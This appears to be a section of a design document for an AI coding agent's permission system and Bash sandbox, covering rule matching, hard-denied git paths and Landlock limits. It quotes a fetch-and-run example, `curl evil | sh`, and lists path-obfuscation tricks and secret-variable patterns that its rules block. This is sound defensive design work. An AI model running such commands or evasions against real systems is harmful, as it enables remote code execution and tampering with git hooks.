


## 9. Permissions and sandbox

### Decision order

For each tool call, the first match from the top wins:

`read-only` mode's denials are checked before allow rules, so an allow rule can't widen that mode.

MCP tool calls never ask (owner decision 2026-11-19): enabling or disabling a server in the MCP view (§13) is the gate. Deny rules, hooks and `read-only` mode still apply first.

| Mode | Read-only tools | `Write`, `Edit` | `Bash`, MCP |
|---|---|---|---|
| `read-only` | allow | deny | deny |
| `ask` | allow | ask | ask (`Bash`); allow (MCP) |
| `auto-edit` | allow | allow in workspace | ask (`Bash`); allow (MCP) |
| `full-access` | allow | allow in workspace | allow, except a `Bash` command that may write a hard-denied path, which asks |

`full-access` (T10.7, owner approval 2026-11-13) loosens §10 for `Bash` and MCP calls: they run without asking, still under every deny rule and hard denial, which are checked first. Only the user can select it: in `config.toml`, a `--config-override`, or the VS Code setting `praxis.permissions.mode` (machine scope, so a workspace can't set it). A project's `permissions.mode = "full-access"` is dropped with a notice, approved or not. Every `Bash` command runs without asking, compound ones included (owner approval 2026-11-15), except one that may write a hard-denied path, which still asks (owner decision 2026-11-15). Reads of those paths run: `cat .git/config`, `ls .git/hooks`, `git config --get user.name`, `git config --list`, and `git status`, `git log`, `git show`. A command is a read only if every part (split on `;`, `&`, `|`, newlines) starts with one of those words and it has no redirect, `$`, backtick, parenthesis or brace. Anything else that names a hard-denied path asks, including `git config` without a read flag, `tee`, `touch`, `sh -c` and `$(...)`. The sandbox still applies.

A hook `allow` skips the prompt but can't override `deny` rules or hard denials.

### Rule syntax

Compatible with Claude Code's: `Tool`, `Tool(glob)`, `mcp__server__tool`, and `mcp__server` for all of a server's tools. Examples: `Bash(git status*)`, `Edit(src/**)`, `Read(**/.env*)`.

**`Bash` allow rules only match simple commands.** Anything containing `;`, `&`, `|`, `` ` ``, `$(`, `>`, `<`, a newline or `${` never matches an allow rule, and always asks. Otherwise `Bash(git *)` would permit `git status; curl evil | sh`. Deny rules match against the whole string and every simple segment, after quotes and backslashes are removed and runs of spaces or tabs collapse to one (`rm  -rf x`, `"rm" -rf x` and `rm\t-rf x` all match `Bash(rm -rf*)`). Allow rules see the raw command. A command whose text mentions a hard-denied path (`.git/hooks`, `.git/config`, `git config`, `hooksPath`, `.praxis`, `.mcp.json`, user config) never matches an allow rule either. Quotes and backslashes are removed first (`.g''it`), and a `.git` path component (`cd .git`, `--git-dir=.git`, `GIT_DIR=.git`), a path component that starts with `.g` and holds a glob (`.g?t/config`, `.gi[t]/hooks`), or a `$(...)`/backtick that mentions git counts as naming `.git`. Such a command that may write asks, even in `full-access`.

File rules match the path relative to the workspace: `file_path` for `Read`, `Write` and `Edit`, and `path` for the search tools. Deny rules check both the path as written and as resolved, so `..` and symlinks can't step around them. Allow rules check only the resolved path. A deny rule on a file doesn't stop a `Grep` over its folder.

### Permission prompts

Prompts are a limited resource, because developers' review effort falls over a session, and confirming a request isn't the same as verifying it (see [RESEARCH.md](../RESEARCH.md#developers-in-the-ide)). So:

- Always show the **full parameters**: the exact command, path or MCP arguments. Never only a summary.
- Allow rules exist to remove routine prompts, so that the prompts left are worth reading.
- Don't offer "always" for compound commands, or for anything outside the workspace.

### Workspace confinement

Resolve with `canonicalize` on the deepest existing ancestor, so symlinks and `..` can't escape; check containment after resolution. Outside the workspace, reads ask and writes need an explicit per-path approval, except for `extra_read` and `extra_write`. Until the permissions and config tasks add those paths, tools refuse everything outside the workspace. One exception: `Read` may open the exact user instruction files `~/.claude/CLAUDE.md` and `~/.config/praxis/AGENTS.md`, which are already in the prompt (§12); never their folders, so `~/.claude` credentials stay unreadable (owner, 2026-11-16). `..` below a missing folder and dangling symlinks are refused too, because they can't be resolved.

### Sandbox

All `Bash` commands run as `praxis sandbox-exec --policy <json> -- /bin/sh -c <command>`. Using a helper avoids `pre_exec` in a multi-threaded parent, and needs no `unsafe`.

- **Writes:** workspace, a per-session temp directory (the command's `TMPDIR`), `/dev/null` and similar devices, `extra_write`.
- **Reads:** allowlist of system directories (`/usr`, `/etc`, `/opt`, `/proc`, `/dev` and the `/bin` and `/lib` links), workspace, toolchain directories (`CARGO_HOME`, `RUSTUP_HOME`, `~/.cargo`, `~/.rustup` and the other toolchain variables), the user's git config read-only (`~/.gitconfig` and `$XDG_CONFIG_HOME/git/config`, default `~/.config/git/config`, only if they exist; credential files are not exposed), `extra_read`. `~/.ssh` and similar stay unreadable, unlike a write-only sandbox. Toolchain directories are never writable, because `~/.cargo/bin` runs later outside the sandbox; Cargo works with a read-only `CARGO_HOME` when nothing needs downloading.
- **Network:** TCP bind and connect blocked unless `network = true`. The helper requires Landlock ABI 4 (Linux 6.7) or later either way.
- **Environment:** allowlisted variables only (`PATH`, `HOME`, `LANG`, `TERM`, toolchain variables). `*_TOKEN`, `*_KEY` and `*_SECRET` are always removed.
- **Fail closed.** If Landlock isn't fully enforced, refuse to run commands and explain how to set `sandbox.mode = "off"` in user config. Never fall back silently.

`// shortcut: Landlock doesn't restrict UDP or all socket types, so "no network" isn't absolute; add seccomp or a network namespace if this becomes a real threat.`

- **Git guard:** when the workspace has a `.git` folder and `bwrap` is on `PATH`, the helper runs under `bwrap --bind / / --dev-bind /dev /dev --proc /proc --ro-bind .git/hooks .git/hooks --ro-bind .git/config .git/config --`, so a runtime-built path can't plant a hook or alias that git runs later. Network and environment are unchanged, and Landlock still applies inside. A `.git` file (worktree, submodule) isn't guarded. Without `bwrap` the guard is skipped and a one-time warning is logged.

`// shortcut: Landlock can't exclude a subdirectory of the writable workspace, so the Git guard (above) adds a bwrap bind mount for .git/hooks and .git/config; .praxis is still writable and worktree or submodule .git files aren't guarded. Upgrade if a bind mount can't cover them.`

Because of that limit, hard denials (§10) are fully enforced for `Write` and `Edit` only. For `Bash`, they are enforced by the Git guard for `.git/hooks` and `.git/config` (when bwrap is present) and otherwise by the prompt: a command that mentions a hard-denied path never matches an allow rule, and the threat model must state the gap, including indirect writes that the text check can't see.

`praxis` and `xtask` both handle `sandbox-exec` before the async runtime starts, so restriction happens in a single-threaded process; it exits 126 when it refuses. Evals run the same sandbox nested inside their bwrap container. `sandbox-exec` must be hidden from `--help`. It runs what it's told, and only applies restrictions, so it grants nothing new.

MCP servers and hooks are **not** sandboxed in the first version, because they are user-approved programs that often need access. Say so in the approval prompt and threat model.

